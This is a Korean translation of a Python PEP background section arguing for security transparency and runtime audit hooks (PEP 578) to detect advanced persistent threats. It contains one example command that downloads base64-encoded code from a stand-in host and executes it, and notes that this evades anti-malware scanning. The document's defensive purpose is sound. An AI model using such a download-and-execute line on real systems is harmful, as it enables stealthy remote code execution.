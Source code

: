### 배경 (Background)

소프트웨어 취약점은 일반적으로 원격 또는 권한 상승 코드 실행을 가능하게 하는 버그로 간주됩니다. 그러나 현대의 연결된 세상에서는 더 위험한 취약점이 고급 지속 위협(Advanced Persistent Threats, APT)을 가능하게 하는 것입니다. APT는 공격자가 네트워크에 침투하여 하나 이상의 머신에 소프트웨어를 설치하고, 시간이 지남에 따라 데이터 또는 정보를 추출할 때 발생합니다. 일부 APT는 악의적으로 데이터를 손상시키거나(예: WannaCrypt) 하드웨어를 손상시킴으로써(예: Stuxnet) 스스로를 드러낼 수 있습니다. 대부분은 그 존재를 숨기고 탐지를 피하려고 합니다. APT는 종종 전통적인 취약점, 사회 공학(social engineering), 피싱(phishing) 또는 스피어 피싱(spear-phishing), 철저한 네트워크 분석, 그리고 잘못 구성된 환경에 대한 이해를 조합하여 스스로를 구축하고 작업을 수행합니다.

최초로 감염된 머신이 최종 목표가 아닐 수 있으며 특별한 권한이 필요하지 않을 수도 있습니다. 예를 들어, 개발자 머신에서 비관리자 사용자로 설정된 APT는 정상적인 배포 채널을 통해 프로덕션 머신으로 확산될 수 있습니다. APT가 가능한 한 많은 머신에 지속적으로 존재하여 제거하기 어렵게 만드는 것은 흔한 일입니다.

공격자가 직접적인 피해를 입히거나 흔적을 숨기려 하든, 탐지를 가로막는 가장 큰 장벽은 통찰력 부족입니다. 대규모 네트워크를 가진 시스템 관리자는 분산 로그에 의존하여 머신이 무엇을 하는지 파악하지만, 로그는 종종 오류 조건만 표시하도록 필터링됩니다. 탐지를 피하려는 APT는 오류나 비정상적인 이벤트를 거의 생성하지 않습니다. 정상적인 운영 로그를 검토하는 데는 상당한 노력이 필요하지만, 여러 회사에서 운영 로그 내에서 자동 이상 징후 탐지를 가능하게 하기 위한 작업이 진행 중입니다. 공격자들이 선호하는 도구는 이미 대상 머신에 설치되어 있는 도구인데, 이는 이러한 도구의 로그 메시지가 정상적인 사용에서는 종종 예상되고 무시되기 때문입니다.

이 시점에서 APT의 존재 또는 이 PEP에 적용되지 않는 방법 및 완화책에 대한 추가 논의는 하지 않겠습니다. 해당 분야에 대한 자세한 정보는 '추가 자료(Further Reading)'에 나열된 자료를 읽거나 시청하는 것을 권장합니다.

Python은 서버 및 개발자 머신에 널리 보급되어 있고, 데이터(네이티브 바이너리와 달리)로 제공되는 임의 코드를 실행할 수 있으며, 내부 감사 기능이 전혀 없기 때문에 공격자에게 특히 흥미로운 도구입니다. 이로 인해 공격자는 단일 명령으로 악성 코드를 다운로드, 해독 및 실행할 수 있습니다.

```python
python -c "import urllib.request, base64; exec(base64.b64decode( urllib.request.urlopen('http://my-exploit/py.b64') ).decode())"
```

이 명령은 현재 네트워크 연결을 통해 읽히거나 디스크에 기록되는 식별 가능한 코드에 의존하는 대부분의 안티-맬웨어 스캐너를 우회합니다(base64는 이러한 검사를 우회하기에 종종 충분합니다). 또한 파일 접근 제어 목록(ACL) 또는 권한(파일 접근 없음), 승인된 애플리케이션 목록(Python이 다른 용도로 승인되었다고 가정), 자동 감사 또는 로깅(Python이 인터넷에 접근하거나 페이로드(payload)를 얻기 위해 로컬 네트워크의 다른 머신에 접근하는 것이 허용된다고 가정)과 같은 보호 기능을 우회합니다.

보안 커뮤니티의 일반적인 합의는 공격을 완전히 방지하는 것은 불가능하며, 방어자는 공격이 성공한 후에야 탐지할 수 있다고 가정해야 한다는 것입니다. 이는 "assume breach" (침해 가정) 사고방식으로 알려져 있습니다. 이 시나리오에서는 샌드박싱(sandboxing) 및 입력 유효성 검사(input validation)와 같은 보호 기능이 이미 실패했으며, 중요한 작업은 악성 코드의 탐지, 추적 및 최종 제거입니다. 이를 위해 Python에서 요구되는 주요 기능은 보안 투명성(security transparency)입니다. 이는 Python 런타임이 비정상적이거나 악의적인 사용을 나타낼 수 있는 어떤 작업을 수행하는지 볼 수 있는 능력입니다. 이러한 사용을 방지하는 것도 중요하지만, 발생하고 있다는 사실을 아는 것이 더 우선순위입니다.

중요도가 높아지는 순서대로 목표를 요약하면 다음과 같습니다.
*   악의적인 사용 방지는 가치 있습니다.
*   악의적인 사용 탐지는 중요합니다.
*   탐지 우회 시도 탐지는 매우 중요합니다.

이러한 문제를 해결한 스크립팅 엔진의 한 가지 예는 PowerShell이며, 최근 투명성과 방지라는 유사한 목표를 향해 강화되었습니다.

일반적으로 애플리케이션 및 시스템 구성은 스크립팅 엔진 내에서 어떤 이벤트가 로깅할 가치가 있는지 결정합니다. 그러나 많은 로그 이벤트의 가치가 공격이 탐지된 후에야 인식된다는 점을 고려할 때, 가능한 한 많은 것을 캡처하고 소스에서 필터링하는 대신 뷰를 필터링하는 것이 중요합니다(추가 자료의 'No Easy Breach' 비디오 참조). 항상 관심 있는 이벤트에는 감사 우회 시도, 올바르게 서명되지 않거나 접근 제어가 되지 않은 코드 로드 및 실행 시도, 디버깅 또는 프로세스 간 검사 도구와 같은 비정상적인 운영 체제 기능 사용, 대부분의 네트워크 접근 및 DNS 확인, 로컬 머신에 파일 또는 구성 설정을 생성하고 숨기려는 시도 등이 포함됩니다.

요약하자면, 방어자는 비정상적이거나 악의적인 사용을 탐지하기 위해 Python의 특정 사용을 감사해야 합니다. PEP 578을 통해 Python 런타임은 이를 제공할 수 있는 능력을 얻습니다. 이 PEP의 목표는 시스템 관리자가 기존 감사 및 보호 시스템과 통합할 수 있는 보안 투명한 버전의 Python을 배포하는 데 도움을 주는 것입니다.

Windows에서는 PEP 578에서 추가된 훅을 통해 통합될 수 있는 특정 기능에는 다음이 포함됩니다.
*   스크립트 블록 로깅 (Script Block Logging)
*   DeviceGuard
*   AMSI (Antimalware Scan Interface)
*   영구 영역 식별자 (Persistent Zone Identifiers)
*   이벤트 추적 (Event tracing) (이벤트 전달 포함)
